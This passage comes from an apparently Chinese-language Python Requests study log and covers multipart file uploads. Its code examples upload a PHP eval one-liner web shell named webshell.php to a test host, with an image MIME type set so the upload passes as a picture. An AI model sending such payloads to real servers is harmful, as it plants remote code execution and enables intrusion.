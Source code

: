 ![image.png](../assets/2021-01-15-Python-Requests%E5%BA%93%E7%9A%84%E5%AD%A6%E4%B9%A0%E6%97%A5%E5%BF%97-%E4%B8%8D%E5%AE%9A%E6%9C%9F%E6%9B%B4%E6%96%B0/image-1d3c67f5d9fe47ceb8c9df27db260968.png)

还可以不使用本地文件，而构造文件内容发送:

```python
import requests
url = 'http://www.n0b1ta.tk:8888/'
payload = {'file':('webshell.php',"<?php @eval($_POST[\'admin@123\']); ?>",'image/jpeg')}
r = requests.post(url,files=payload)
```

![image.png](../assets/2021-01-15-Python-Requests%E5%BA%93%E7%9A%84%E5%AD%A6%E4%B9%A0%E6%97%A5%E5%BF%97-%E4%B8%8D%E5%AE%9A%E6%9C%9F%E6%9B%B4%E6%96%B0/image-72fcbda55f3f43ce8c79bfebd22b2062.png)

**注意**：

默认下requests不支持非常大的文件作为 multipart/form-data 请求，但是有个第三方包 ***requests-toolbelt*** 是支持的，详见:[toolbelt 文档](https://toolbelt.readthedocs.io/en/latest/)

你也可以使用一个多文件field叫做”images"的关键字来使用数组传输多个文件:

```python
import requests
url = 'http://www.n0b1ta.tk:8888/'
payload = [
    ('images',('webshell.php',"<?php @eval($_POST[\'admin@123\']); ?>",'image/png')),
    ('images',('phpinfo.php',"<?php phpinfo();",'image/png'))]
r = requests.post(url,files=payload)
```

![image-20211123125530166](../assets/2021-01-15-Python-Requests%E5%BA%93%E7%9A%84%E5%AD%A6%E4%B9%A0%E6%97%A5%E5%BF%97-%E4%B8%8D%E5%AE%9A%E6%9C%9F%E6%9B%B4%E6%96%B0/image-20211123125530166.png)
